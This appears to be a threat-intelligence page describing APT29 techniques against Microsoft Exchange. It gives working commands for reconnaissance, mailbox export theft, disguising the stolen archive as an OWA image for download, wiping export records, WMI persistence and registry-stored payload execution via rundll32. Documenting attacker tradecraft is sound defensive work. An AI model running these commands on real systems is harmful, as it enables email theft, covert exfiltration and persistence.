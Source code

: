 # APT29

## Features

1. The organization will use PowerShell commands to obtain the list of users and current roles of the Exchange server during the intranet reconnaissance of the Exchange server.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-ManagementRoleAssignment -GetEffectiveUsers | select Name,Role,EffectiveUserName,AssignmentMethod,IsValid | ConvertTo-Csv -NoTypeInformation | % {$_ -replace '`n','_'} | Out-File C:\temp\1.xml"
```

Check web service virtual directory information using PowerShell commands.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-WebServicesVirtualDirectory | Format-List"
```

PowerShell commands are also used when stealing e-mail files.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "New-MailboxExportRequest -Mailbox foobar@organization -ContentFilter {(Received -ge '03/01/2020')} -FilePath '\\<Mailbox server>\c$\temp\b.pst'"
```

Then the organization will use the 7Z compression program on the victim's OWA server to compress the file into an encrypted compressed package and access it through HTTP requests. After the execution is completed, the leaked data can be downloaded through the access request:/owa/auth/Redir.png.

```powershell
C:\Windows\system32\cmd.exe /C .\7z.exe a -mx9 -r0 -p[password]  "C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\Redir.png" C:\Temp\b.pst
```

After the end of email stealing, the organization will use PowerShell command to clear the export mail record.

```powershell
C:\Windows\system32\cmd.exe /C powershell.exe -PSConsoleFile exshell.psc1 -Command "Get-MailboxExportRequest -Mailbox user@organization | Remove-MailboxExportRequest -Confirm:$False"
```

2. Use WMI events for persistence during persistence.

```WMI
SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 180 AND TargetInstance.SystemUpTime < 480
```

3. Utilize MSHTA persistence

```cmd
rundll32.exe vbscript:”..\mshtml,RunHTMLApplication “+Execute(CreateObject(“WScript.Shell”).RegRead(“HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\sibot\”))(window.close)
//Read the registry first, then create the object, and use rundll32.exe to run
```
